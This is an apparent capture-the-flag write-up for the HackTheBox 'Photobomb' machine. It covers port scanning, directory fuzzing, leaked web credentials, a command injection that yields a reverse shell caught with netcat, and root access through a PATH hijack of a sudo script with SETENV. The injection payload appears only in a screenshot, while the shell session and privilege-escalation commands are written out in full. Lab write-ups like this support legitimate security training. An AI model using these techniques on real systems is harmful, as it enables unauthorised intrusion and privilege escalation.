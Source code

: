 

![image.png](Photobomb-D3p4k%2016f79dbf6729809b8ec8ea201feb7bac/image.png)

# Enumeration:

### Port Scanning:

```bash
rustscan -a 10.129.228.60 -- -sC -sV
```

![Screenshot from 2025-01-02 16-02-11.png](Photobomb-D3p4k%2016f79dbf6729809b8ec8ea201feb7bac/Screenshot_from_2025-01-02_16-02-11.png)

### Directory Fuzzing:

```bash
feroxbuster -u http://photobomb.htb/
```

![image.png](Photobomb-D3p4k%2016f79dbf6729809b8ec8ea201feb7bac/image%201.png)

### Web Application:

![image.png](Photobomb-D3p4k%2016f79dbf6729809b8ec8ea201feb7bac/image%202.png)

![image.png](Photobomb-D3p4k%2016f79dbf6729809b8ec8ea201feb7bac/image%203.png)

### Credentials : 
`pH0t0:b0Mb!`

![image.png](Photobomb-D3p4k%2016f79dbf6729809b8ec8ea201feb7bac/image%204.png)

![image.png](Photobomb-D3p4k%2016f79dbf6729809b8ec8ea201feb7bac/image%205.png)

### **Comman Injuction:**

![image.png](Photobomb-D3p4k%2016f79dbf6729809b8ec8ea201feb7bac/image%206.png)

```bash
nc -lnvp 7777                      
listening on [any] 7777 ...
connect to [10.10.14.51] from (UNKNOWN) [10.129.228.60] 59194
bash: cannot set terminal process group (724): Inappropriate ioctl for device
bash: no job control in this shell
wizard@photobomb:~/photobomb$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
wizard@photobomb:~/photobomb$ ^Z
zsh: suspended  nc -lnvp 7777
```

```bash
stty raw -echo ;fg    
[1]  + continued  nc -lnvp 7777

wizard@photobomb:~/photobomb$
```

```bash
wizard@photobomb:~/photobomb$ cd /home
wizard@photobomb:/home$ cd wizard/
wizard@photobomb:~$ ls
photobomb  user.txt
```

### **Privilege Escalation:**

```bash
wizard@photobomb:~$ sudo -l
Matching Defaults entries for wizard on photobomb:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User wizard may run the following commands on photobomb:
    (root) SETENV: NOPASSWD: /opt/cleanup.sh
```

```bash
wizard@photobomb:~$ cat /opt/cleanup.sh
#!/bin/bash
. /opt/.bashrc
cd /home/wizard/photobomb

# clean up log files
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]
then
  /bin/cat log/photobomb.log > log/photobomb.log.old
  /usr/bin/truncate -s0 log/photobomb.log
fi

# protect the priceless originals
find source_images -type f -name '*.jpg' -exec chown root:root {} \;
```

```bash
wizard@photobomb:~$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```

```bash
wizard@photobomb:~$ cd /tmp  
wizard@photobomb:/tmp$ vim find

#!/bin/bash
bash
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
"find" [New] 2L, 17C written

wizard@photobomb:/tmp$ cat find 
#!/bin/bash
bash
```

```bash
wizard@photobomb:/tmp$ export PATH=/tmp:$PATH
wizard@photobomb:/tmp$ chmod +x find
wizard@photobomb:/tmp$ sudo PATH=/tmp:$PATH /opt/cleanup.sh
```

```bash
root@photobomb:/home/wizard/photobomb# id 
uid=0(root) gid=0(root) groups=0(root)
```

![image.png](Photobomb-D3p4k%2016f79dbf6729809b8ec8ea201feb7bac/image%207.png)